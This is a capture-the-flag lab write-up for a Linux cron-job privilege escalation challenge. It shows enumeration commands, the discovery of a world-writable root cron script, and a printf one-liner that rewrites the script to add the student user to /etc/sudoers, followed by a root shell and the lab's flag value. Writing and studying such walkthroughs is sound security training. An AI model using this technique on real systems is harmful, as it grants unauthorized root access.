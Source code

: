 # 🔬Cron Jobs

### Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Cron Jobs Gone Wild II](https://www.attackdefense.com/challengedetails?cid=77)
>
> * **Cron Jobs** Privilege escalation
> * Already logged on as `student` unprivileged user

```bash
whoami
groups student
ls -l
cat message
```

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> There is a “message” file in the home directory of student user. Only root user has permissions on this file. So, student user can’t even read it.

```bash
cat /etc/passwd
crontab -l
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> `student` user has no privileges and no scheduled cron jobs

### Cron Jobs Identify <a href="#cron-jobs-identify" id="cron-jobs-identify"></a>

* Find if a file with the same name exists on the system.

```bash
find / -name message
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<pre class="language-bash"><code class="lang-bash">grep -rnw /usr/ -e "/home/student/message"
<strong>    /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
</strong></code></pre>

* The file has been copied into the /tmp directory

```bash
cat /tmp/message
    Hey!! you are not root :(
```

* Observe that a file with the same name is present in `/tmp` directory. On checking closely, it is clear that this file is being overwritten every minute.

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* This means there is some script/binary which is copying this file from student home directory to /tmp directory. Search for that script. If this script is doing simple copy operation, it must have source destination of the file in it. Try to locate that by using grep command.

```bash
grep -nri "/tmp/message" /usr/
    /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
    /usr/local/share/copy.sh:3:chmod 644 /tmp/message
```

* Check `copy.sh` privileges

```bash
ls -al /usr/local/share/copy.sh
	-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
```

```bash
cat /usr/local/share/copy.sh
    #! /bin/bash
    cp /home/student/message /tmp/message
    chmod 644 /tmp/message
```

* As the script file is writable by current “student” user, it can be modified to execute our commands. This script is executed by root cron job, so it can do privileged operation.&#x20;
* But, the file can’t be modified directly as there is no text editor on the system.

```bash
vim /usr/local/share/copy.sh
bash: vim: command not found
student@attackdefense:~$ vi /usr/local/share/copy.sh
bash: vi: command not found
student@attackdefense:~$ nano /usr/local/share/copy.sh
bash: nano: command not found
```

### Privesc <a href="#privesc" id="privesc"></a>

* Every user account has read/write/execute permissions on the `copy.sh` script
* The script is writable by the `student` user. Modify the script to execute a command (`e.g.` a_dding **student** to `sudoers` file_).
  * When the script is executed by `root` cron job (_every 1 min for this lab_), it will run commands with pivileged permissions
  * No text editors available in the lab
* Use `printf` to replace the original code with the following lines

```bash
printf '!#bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
student@attackdefense:~$ cat /usr/local/share/copy.sh
!#bin/bash
echo "student ALL=NOPASSWD:ALL" >> /etc/sudoersstudent@attackdefense:~$
```

* Check current sudoers list

```bash
sudo -l
    Matching Defaults entries for student on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
```

* There are no new entries. So, wait for 1 minute (i.e. the cron job runs every 1 minute) and check the sudoers list again. This time new entry is there.

```bash
sudo -l
    Matching Defaults entries for student on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
        (root) NOPASSWD: ALL
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Switch to the root user using `sudo su`and collect the flag from the root directory.

```bash
sudo su
root@attackdefense:/home/student# whoami
root
root@attackdefense:/home/student# cd /root
root@attackdefense:~# ls -l
total 4
-rw-r--r-- 1 root root 33 Nov  2  2018 flag
root@attackdefense:~# cat flag
697914df7a07bb9b718c8ed258150164
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `697914df7a07bb9b718c8ed258150164`
{% endhint %}




